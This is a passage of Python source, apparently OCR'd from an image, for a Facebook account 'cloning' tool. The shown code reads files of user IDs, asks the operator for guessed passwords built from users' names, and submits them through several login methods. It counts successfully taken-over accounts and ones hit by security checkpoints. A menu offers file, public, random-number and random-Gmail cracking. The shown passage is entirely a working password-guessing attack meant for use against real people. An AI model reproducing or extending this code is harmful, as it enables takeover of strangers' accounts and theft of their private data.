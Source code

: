                                 if mthd in ['1','01']:
                                        crack_submit.submit(ffb,ids,names,passlist)
                                elif mthd in ['2','02']:
                                        crack_submit.submit(api,ids,names,passlist)
                                else:
                                        crack_submit.submit(api1,ids,names,passlist)
                print('\033[1;37m')
                linex()
                print(' The process has completed')
                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                linex()
                input(' Press enter to back ')
                os.system('python akram.py')
        except requests.exceptions.ConnectionError:
                exit(f' No internet connection')
        except (KeyError,IOError):
                print(f' No friends for {userr}')
                time.sleep(3)
                public()
def menu():
        try:
                clear()
        #       chk()
                x = ("sex")
                if x == ("sex"):
                        print(' [1] File cloning\n [2] Create ids file\n [3] Public cloning\n [4] Random number cloning\n [5] Random gmail crack\n [6] WhatsApp Group (join)\n [7] Download Vpn\n [8] How To Use Video\n [0] Exit menu')
                        linex()
                        xd=input(' Choose an option: ')
                        if xd in ['1','01']:
                                clear()
                                print(' Put file example:  /sdcard/File.txt  etc..')
                                linex()
                                file = input(' Put file path\033[1;37m: ')
                                try:
                                        fo = open(file,'r').read().splitlines()
                                except FileNotFoundError:
                                        print(' File location not found ')
                                        time.sleep(1)
                                        menu()
                                clear()
                                print(' All method working try 1 by 1 ')
                                linex()
                                print(' [1] Method 1 (for new ids) \n [2] Method 2 (for old ids)\n [3] Method 3 (for old ids)')
                                linex()
                                mthd=input(' Choose: ')
                                linex()
                                plist = []
                                try:
                                        ps_limit = int(input(' How many passwords do you want to add ? '))
                                except:
                                        ps_limit =1
                                linex()
                                print('\033[1;32m exp: first last,firtslast,first123')
                                linex()
                                for i in range(ps_limit):
                                        plist.append(input(f' Put password {i+1}: '))
                                linex()
                                print(' Do you went show cp account? (y/n): ')
                                linex()
                                cx=input(' Choose: ')